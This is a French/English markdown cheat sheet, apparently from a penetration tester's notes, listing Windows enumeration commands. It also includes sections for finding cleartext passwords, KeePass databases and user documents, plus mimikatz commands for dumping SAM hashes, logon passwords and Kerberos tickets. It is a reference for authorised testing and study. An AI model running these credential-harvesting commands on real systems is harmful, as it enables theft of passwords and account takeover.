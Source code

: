 # Checklist Windows
  
**Hostname:** hostname  
**Infos utilisateur:** whoami /all  
**infos IP:** ipconfig /all  
**liste des connexions:** netstat -ano  
**infos system:** systeminfo  
**powershell-history:** type C:\Users\[user]\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt  
to verify the path of ConsoleHost_history: (Get-PSReadlineOption).HistorySavePath  
  
**list connected user:**  
query user  
  
**users and localgroups:**  
net users  
net localgroups  

**More info about a specific user:**  
net user [user]  
  
**View Domain Groups:**  
net group /domain  
  
**View Members of Domain Group:**  
net group /domain [Group Name]  

**lister user/groupe en powershell:**  
Get-LocalUser  
Get-LocalGroup  
Get-LocalGroupMember adminteam  
  
**process:**  
Get-Process  
tasklist /v  
  
**Logiciels installés:**  
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname  
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname  
  
**Firewall:**  
netsh firewall show state  
netsh firewall show config  

## Cleartext Passwords  
findstr /si password *.txt  
findstr /si password *.xml  
findstr /si password *.ini  
  
**Find all those strings in config files.**  
dir /s *pass* == *cred* == *vnc* == *.config*  
  
**Find all passwords in all files.**  
findstr /spin "password" *.*  
findstr /spin "password" *.*  

**Kepass File**  
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue  
  
All doc file :
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

## mimikatz.exe cheat sheet
privilege::debug  -->  engage the SeDebugPrivlege  
token::elevate + lsadump::sam --> Dump from SAM database  
sekurlsa::logonpasswords --> Dump from Sekurlsa  
sekurlsa::tickets --> Dump cached tickets  
Some source: https://chryzsh.gitbooks.io/pentestbook/content/privilege_escalation_windows.html  

## démarer un service:  
sc.exe start audtiTracker  
